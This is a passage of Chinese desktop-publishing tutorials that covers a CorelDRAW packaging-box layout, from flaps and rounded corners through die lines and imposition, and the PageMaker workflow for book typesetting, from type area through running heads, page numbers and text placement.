全彩色 | 胶印 | 二者都有 | 175 | 高档平台带透射稿装置，600～1200dpi(反射稿)、4000(透射稿)，36～48位彩色(8)再画一个矩形，调整大小为 35mm × 52mm，如图6所示调整其位置。

(9)选用“贝兹曲线”工具，在任意点按下鼠标，并按住Ctrl键不放，将鼠标在垂直方向的另一点处按下，即绘制出一条垂直线段。接着按住Ctrl键，将鼠标在水平方向的另一点按一下，即在原垂直线的基础上重新接上了一条水平线段，再用鼠标点击一下开始建立线段的第一点，将这个图形封闭，成为一个三角形，调整其大小为5mm × 15mm，再对齐到翻盖的右边并复制一个，对齐到左边，如图7、图8所示。

(10)选用“形状”工具，将三角形的一角往外拉开，使得三角形包住了翻盖C的右上角，如图9所示。

(11)选中两个三角形，再选中翻盖 C，执行“安排” > “造型” > “修剪”，或点击一下属性工具栏上的“修剪”工具，即可以将翻盖C的两个上角切掉，如图10、图11所示。

(12)在翻盖B的左下角画一个矩形，大小为5mm × 10mm，并选中此矩形，再选中翻盖B，按下L、B键对齐翻盖 B 的左下角。并在其右边再镜像出一个小矩形，然后拉几条导线到两个小矩形的边上以备后用，如图12所示。

(13)选中翻盖 B 那个矩形，按下 Ctrl+Q 键将其转换为曲线，选用“形状”工具，点击“检视”菜单下的对齐导线项。用“形状”工具双击一下翻盖B左边线框圈1处，即可以增加一个节点。将这个节点移动到圈2处，将圈3处的节点拉到圈4处，最后如图13、图14所示。

好了，现在基本上已完成了草稿，但是那些翻盖的转角还不够圆滑，所以还需要修修。

(14)选择椭圆工具，在任意地方画一个圆圈，大小设为 5mm × 5mm，然后将它移动到翻盖 C 的右上角处，如图 15 所示。此时应使用框架模式的视图方式，并尽量地放大图形，以准确地对好位置。

(15) 选用“形状”工具，在翻盖 C 最靠近圆圈的右边和上边双击以各增加一个节点（圈 1 和圈 2 处），如图 16 所示。

(16) 双击顶点上的节点（圈 3 处）以删除这个节点，使其变为一根直线。

(17) 继续调用“形状”工具，点击圈 1 和圈 2 之间的直线，再点击属性工具栏上面的“转换直线为曲线”工具按钮，然后将此线段依照圆圈为基准对齐圆圈的外边，使这里由直线变成一个圆弧线，再把那个基准圆移开，这只角就变成了一个圆角了，如图 17、图 18 所示。

(18) 调好这只角之后，再用同样方法将图 19 中的圈 1、圈 2、圈 3 所处的角改为圆角。

(19) 选中翻盖 A、B、C 再群组。按住 Ctrl 键不放，用鼠标拖动所群组的对象的上边上的锚点，向下拖动，待下面也出现与其相反的镜像图案时，依旧按住 Ctrl、左键不放并按下右键，即在已填有图案的矩形框上复制出了另一群翻盖。

(20) 选中刚才复制的翻盖对象，旋转 180 度再选中图案 B，按下 B、R 键或从“排列”菜单中调出“对齐与分布”对话框，进行下、右边对齐。

(21) 选取图案 B 处的翻盖，按住 Ctrl 键用鼠标选中其上端的锚点向下拖动，等确定对象已经翻到下面之后再松手，于是在另一端也做好了翻盖了，如图 20 所示。

(22) 将图案 A 上端的翻盖解散群组。选取翻盖 B, 复制、粘贴两次，得到两个复本。选取任意一个复本，再同时选中商标B所处的矩形框，按下L键进行边对边对齐，再水平翻转一下，如图21所示。

(23)选择另一个复本并同时选中商标A所处的矩形框，按B键以对齐该矩形的底边，然后按住Ctrl键不放，用鼠标向下翻转，则一个包装盒基本完工，如图22所示。

(24)选择矩形工具，在图案A的右边画一个矩形，大小为 15mm × 64mm，选中该矩形，再选中图案A，按下E、R键进行对齐，如图23所示。

(25)接下去就是绘制刀模线了。版式图的绘制如图24所示，在加有粗线的部分用虚线，表示只折痕而不需要切断。没有加粗线的部分用实线，表示需要切断的部位。

(26)以上所有步骤制作完毕之后，即可以进行拼版以制版并上机印刷。在拼版的过程中，发现用正度对开纸印刷会多浪费一个包装盒的位置，所以在此采用正度三开模式拼版，在大版上拼十模，小版上拼五模，如图25所示。

以上是一个普通型包装盒的印前制作简易过程，另外包装盒还有多种制作方式，如开窗式、底盖锁扣式等，但其基本制作方式大多类似，相信通过这个小例子的学习，应该可以触类旁通对其他包装盒的制作一样轻松完成。

> (文/5D多媒体 朱斌)

## 图书排版流程

### 一、了解图书的构成

- 封面：包括封一、封二、封三、封底和书脊，一般是在一起设计的，与内文分开排版、出片及印刷。所以本文将内文排版为主，对封面设计的内容不再涉及。
- 扉页：位于第一页，用来标明书名、编著者及出版社名称，无页码或用暗码标记（即包含在总体页码计数之内，但是页码不显示出来）。一般编辑会给出固定的格式。
- 版权页：第二页，用来承载版权、内容提要等信息。无页码或用暗码标记，一般也有固定格式，可向编辑索要。
- 前言：也称为序，占一页或更多页，视具体情况而定。无页码，或用暗码标记，也有前言单独起页码的，需要询问编辑的意见。
- 目录：一页或多页不等。无码，或用暗码标记，也可单独起页码。
- 正文：正文一般要从奇数页开始，视具体要求会分有篇、章、节等结构。
- 后记：也叫跋。

### 二、版心设置

版心设置是正式排版之前一个非常重要的环节。因为图书版式的多样性，使得版心的设置也各不相同，如32开、16开、大16开，以及各种编辑要求的自定义大小的版式等。下面就来看看，如何在PageMaker中设置版心。

- (1) 启动PageMaker。
- (2) PageMaker 启动后会自动打开模板调板窗口（如图1）。注意，模板调板只有6.5增强版及后续的版本才有。
- (3) 双击窗口中的某一样式，PageMaker就会自动创建一个设计好的文档，读者只要把其中的文字、图形等重新改为自己需要的就可以完成任务。在“类别”下拉列表中，还可以选择菜单、贺卡、广告传单、折页小册子、商务表格等其他类别的样式。
- (4) 不过这些模板中没有提供各种图书的版式，所以只能是我们自己来设置了。先点击模板窗口右上角的“X”按钮将其关闭。如果不想每次运行PageMaker时都自动调用该模板窗口，可取消该窗口底部的“在下次打开PageMaker时显示”项。在需要调用模板的时候，只要执行“窗口” > “增效工具面板” > “显示模板调板”菜单命令即可。
- (5) 执行“文件”>“新建”菜单命令（或直接按 Ctrl+N 键），调出文档设定对话框（如图2）。从“页面尺寸”下拉菜单中选择一个标准页面大小，如A4、B5等系统预置好的大小。选择了页面尺寸后，该尺寸对应的数值将自动出现在“自定尺寸”文本框中。一般来说，这些预置的参数不适合用来制作图书，这时就需要在“页面尺寸”下拉菜单中选择“自定义”，然后在“自定尺寸”中输入实际需要的尺寸大小。如图2所示。185 × 260（毫米）就是《电脑爱好者合订本》的页面大小，这是标准的16开。当然，这还只是页面的实际大小（即16开纸张的大小），得减去内、外、顶部、底部的宽度之后，才是真正的版心大小。在“打印方式”选项中，对高大于宽的页面可选择“直式”（纵向），对宽大于高的页面可选择“横式”（横向）。一般都选择“直式”。单击“双面”来设置“内”页边距和“外”页边距，以适应两面打印页面的装订的要求，并使“对开”选项有效。在“页数”框中输入初步打算为出版物设置的页数，这个数字不用很精确，可在以后根据需要添加或删除页面。
- (6) 设置好版心等各项参数后，单击“确定”按钮即可创建一个新文档了。如图3所示，就是建立了一个10页的文档，当前显示的是2、3页。每个页面都有两个方框，其中外框是真实的纸张大小，内框就代表版心了。正文的内容都应该限制在版心里，如果排版的图文超出了版心，就叫作“出血”。出血有时是为了版面美观的需要，但是要注意，出血的图文在最后成书的时候，是有可能被切掉一部分的。
- (7) 在新文档的左下角，会显示有L、R、1、2、3、4等标识（如图4）。点击其中的L、R将进入文档的主页，点击数字则进入相应的页码。因为我们在“文档设定”中选中了“双面”和“对页”，所以每次总是显示两页，左边为偶数页，右边为奇数页。

### 三、书眉页脚

书眉和页脚是图书中比较固定的内容，所以它一般被放在主页中。主页中的内容，除了能在所有页上都显示之外，另一个好处就是在普通页面中操作时，是不能修改主页中的内容的，从而起到一定的保护作用。

- (1) 点击新建文档的左下角的L、R，进入主页中进行操作。
- (2) 根据美编设计好的样式，在主页上导入图形，输入文字，必要的时候还要用工具箱中的图形工具画一些简单的图形。如图5、6所示，即为《电脑爱好者2002(上)合订本》奇数页的书眉和页脚。
- (3) PageMaker可以自动为图书加上页码,当进行添加、删除或者插入页面时,PageMaker能自动更新页码。页码一般也是放置在主页上。页码的设置很简单,在工具箱中选中文字工具,在主页上单击一个插入点。然后按下Ctrl+Alt+P键,将出现“LM”字样（如果是在右主页,则为“RM”）。选中它,然后像对一般的文本一样对它进行各种格式操作,使其达到美编的要求。最后用箭头工具调整好它的位置即可。为了保证左右两边的页码格式一致,最好先在某一主页上设置好页码,再将其复制到另一主页中。

### 四、置入文本和图形

图书排版需要处理大量的文本,如果纯粹在组版软件中录入,效率是非常低的,最好在Word、Wps等字处理软件中将文本输入。当然,带图形的Word文档不宜直接插入PageMaker中,最好是将其另存为文本文件,然后再置入PageMaker。在正式置入文本之前,必须设置好正文字体,否则后面的工作会很麻烦。

- (1) 执行“文字” > “定义排式”命令,调出“定义排式”对话框（如图7）。
- (2) 选中“正文”项然后再单击“编辑”按钮,从随后打开的对话框中对正文字体、行距等进行设置,最后确定即可。
- (3) 设置好正文格式后,使用“文件” > “置入”命令,或按下Ctrl+D键,打开置入对话框。找到需要置入的文本文件,如图8所示进行设置,单击“打开”按钮,将弹出一个提示框,单击“确定”。
- (4) 这时光标会变成一个拐尺带一个弯箭头状,表示当前可以在PageMaker中插入文本了。将光标拐尺对齐页面左上角然后单击鼠标,即可将文本置入了。被置入的文本自动填充完页面,如果当前的页面数不够,PageMaker能自动创建新页面,直到所有文本置入完毕。如果文本完全置入,则选中文本时末尾显示的是一个空白的黑色半圆形图,如果还有剩余的文本没有置完,则显示为红色半圆形,且里面还有一个倒三角的图标,单击这个图标,则光标又变成可置入文本状态,在空白的页面单击,即可将剩余的文本置完。图形的置入与文本差不多,也是Ctrl+D键调出置入对话框,然后选择需要置入的图形文件并确定。所不同的是,图形文件被置入之前,系统会弹出一个对话框,询问是否在文档中保存图片的副本。一般选择“否”,这样,以后修改图形文件的时候,就不用重新链接到文档了。

### 五、收尾工作

掌握了排版的基本知识之后,剩下的可以说就是“体力劳动”了,不停地置入文本、图片,设置各级标题样式,三校改错,有时还要修改书眉页脚等整体的版式。最后整理修订好目录,就可以打样出片了。

当然,排版过程中有许多的技巧细节,不可能在一篇短文中讲清楚,大家可以本文为基础,在实践中慢慢摸索,成为排版大师也许指日可待了。

(文/也许 柳絮飞)